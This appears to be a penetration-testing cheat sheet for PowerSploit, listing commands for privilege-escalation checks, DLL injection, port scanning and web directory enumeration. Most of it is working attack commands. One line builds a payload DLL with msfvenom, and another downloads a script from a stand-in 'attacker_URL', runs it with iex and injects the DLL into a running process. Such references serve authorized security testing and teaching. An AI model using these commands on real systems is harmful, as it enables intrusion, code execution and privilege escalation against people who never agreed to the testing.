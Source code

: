 # $ powersploit
collection of Microsoft PowerShell modules that can be used to aid penetration testers during all phases of an assessment. 
# PowerUp module
```powershell
PS> Import-Module .\Privesc.psm1
PS> Get-Command –Module Privesc
```
## Invoke-AllChecks
Run all functions related to the Privesc module looking for misconfigurations, permissions issues with services, opportunities for DLL hijacking a number of other useful checks.
```powershell
PS> Invoke-AllChecks
PS> Invoke-AllChecks -HTMLReport
```
## Invoke-DLLInjection
```bash
msfvenom -p windows/exec CMD="cmd.exe" -f dll > cmd.dll
```
```powershell
PS C:\> iex (New-Object Net.Webclient).DownloadString("http://attacker_URL/Invoke-DLLInjection.psl"); Invoke-DLLInjection -ProcessID 7420 C:\programdata\cmd.dll
```
# Invoke-Portscan
enumerate network hosts and ports
```powershell
PS> Invoke-Portscan -Hosts "192.168.13.1/24" -PingOnly # identify live hosts
PS> Invoke-Portscan -HostFile ips.txt -PingOnly # identify live hosts from list
PS> Invoke-Portscan -HostFile ips.txt -PingOnly | Export-Csv C:\ping_scan.csv # identify live hosts from list and export to CSV
PS> Invoke-Portscan -HostFile live_hosts.txt -ports "53-81" # port scan list of hosts 
PS> Invoke-Portscan -HostFile live_hosts.txt -oG port_scan.gnmap -f -ports "53-81"   # port scan list of hosts, output in greppable format
```
# Get-HttpStatus
enumerate files and directories on webserver
```powershell
PS> Get-HttpStatus -Target 192.168.13.62 -Path dictionary.txt -Port 80 | >> ? ($_.Status -match "ok")
```